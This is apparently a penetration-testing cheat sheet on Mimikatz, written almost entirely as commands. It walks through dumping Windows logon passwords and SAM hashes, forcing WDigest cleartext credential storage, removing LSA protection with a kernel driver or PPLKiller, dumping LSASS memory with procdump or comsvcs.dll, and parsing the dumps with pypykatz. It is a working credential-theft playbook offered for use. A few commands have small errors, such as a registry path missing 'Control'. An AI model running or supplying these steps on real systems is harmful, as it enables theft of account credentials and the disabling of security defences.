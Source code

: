 # Mimikatz

## 01 - Setup

```
PS C:\> Invoke-WebRequest -UseBasicParsing -Uri https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -OutFile mimikatz_trunk.zip
Expand-Archive .\mimikatz_trunk.zip
cd mimikatz_trunk\x64
.\mimikatz.exe
```

## 02 - Help Menu

TODO: Copy and paste the help menu for mimikatz

```
mimikatz # ::
```

## 03 - Usage

### 3.1 - LogonPasswords

Make sure the `SeDebugPrivilege` is enabled

```
C:\> whoami /priv
Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Enabled

mimikatz # privilege::debug
Privilege '20' OK
```

Audit by logging the file

```
mimikatz # log credentials.txt

mimikatz # sekurlsa::logonpasswords
```

If you receive this error

```
mimikatz # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
```

Go to the **Group Policy Management Editor** -> Windows Settings -> Security Settings -> Local Policies -> User Rights Assignment -> Debug programs -> then uncheck the box **"Define these policy settings:"**

### 3.2 - SAM

```
mimikatz # lsadump::sam
```

### 3.3 - Enable Wdigest

Otherwise another way around it is to dump with **WDigest**

```
mimikatz # sekurlsa::wdigest
```

If you receive this error

```
mimikatz # sekurlsa::wdigest
ERROR kuhl_m_privilege_acquireLSA ; Handle on memory (0x00000005)
```

Simply downgrades to enable mimikatz to retrieve the credentials of the windows workstation

```
C:\> reg add "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f

PS C:\> Set-ItemProperty -Force -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" -Name "UseLogonCredential" -Value "1"
```

### 3.4 - Disable LSA Protection

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_privilege_acquireLSA ; Handle on memory (0x00000005)
```

`C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL`

```
PS C:\> Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Lsa -Name "RunAsPPL"

RunAsPL     : 1
```

- Method 1:

```
mimikatz # !+
```

Create and start a `mimidrv` service

```
C:\> sc create mimidrv binpath= C:\path\to\mimidrv.sys type= kernel start= demand

C:\> sc start mimidrv
```

```
mimikatz # !processprotect /process:lsass.exe /remove

mimikatz # privilege::debug

mimikatz # sekurlsa::logonpasswords

mimikatz # !processprotect /process:lsass.exe

mimikatz # !-
```

- Method 2:

```
C:\> PPLKiller.exe /installDriver

C:\> PPLKiller.exe /disableLSAProtection

C:\> PPLKiller.exe /uninstallDriver
```

### 3.5 - Dump LSASS Process

Check if the LSASS process is present

```
C:\> tasklist /fi "imagename eq lsass.exe"

PS C:\> get-process lsass
```

#### 3.5.1 - Dump the process memory

- **Method 1:** Use the legit sysinternal tool

```
C:\> procdump.exe /accepteula -ma <lsass_pid> hashmem.dmp

C:\> procdump.exe /accepteula -ma lsass.exe hashmem.dmp
```

- **Method 2:** Living off the Land technique

```
C:\> rundll32 comsvcs.dll,Minidump "<lsass_pid> hashmem.dmp full"

PS C:\> rundll32.exe comsvcs.dll,Minidump ((Get-Process lsass).Id) hashmem.dmp full

C:\> c:\windows\system32\rundll32.exe c:\windows\system32\comsvcs.dll,Minidump <lsass_pid> hashmem.dmp full
```

#### 3.5.2 - Dump credentials

- **Method 1:** Using pypykatz

```
$ pypykatz lsa minidump hashmem.dmp

$ pypykatz lsa -k /path/to/file_creds minidump hashmem.dmp
```

- **Method 2:** Directly dump credentials in mimikatz

```
mimikatz # sekurlsa::minidump hashmem.dmp
```

Create a log file

```
mimikatz # log dumpcreds.txt

mimikatz # sekurlsa::logonpasswords
```

---
## References

### LOLBAS

- [LOLBAS: Comsvcs](https://lolbas-project.github.io/lolbas/Libraries/Comsvcs/)

### Github

- [RedCursorSecurityConsulting: PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)

- [itm4n: PPLdump](https://github.com/itm4n/PPLdump)

- [HarmJ0y: Invoke-WdigestDowngrade.ps1](https://gist.github.com/HarmJ0y/8fdd2d3acfbe79b730db)

- [IgniteTechnologies: Credential Dumping](https://github.com/Ignitetechnologies/Credential-Dumping)

### ADSecurity

- [Active Directory Security: Unofficial Guide to Mimimkatz & Command Reference](https://adsecurity.org/?page_id=1821)

### Hacking Articles

- [Hacking Articles: Credential Dumping Wdigest](https://www.hackingarticles.in/credential-dumping-wdigest/)

### Hades

- [Hades: Mimikatz Comprehensive Guide](https://hadess.io/mimikatz-comprehensive-guide/)

### Itm4na

- [itm4n: LSASS RunAsPPL](https://itm4n.github.io/lsass-runasppl/)

### WhiteOakSecurity

- [WhiteOakSecurity: Attack Defenses Dumping LSASS no Mimikatz](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/)

- [FAS Data Security Compliance Program: Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors](https://datasecurity.ucsf.edu/news/russian-government-cyber-activity-targeting-energy-and-other-critical-infrastructure-sectors)

- [Configuring Additional LSA Protection](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection)

- [RedTeamRecipe: 64 Methods For Execute Mimikatz](https://redteamrecipe.com/64-methods-for-execute-mimikatzrtc0003)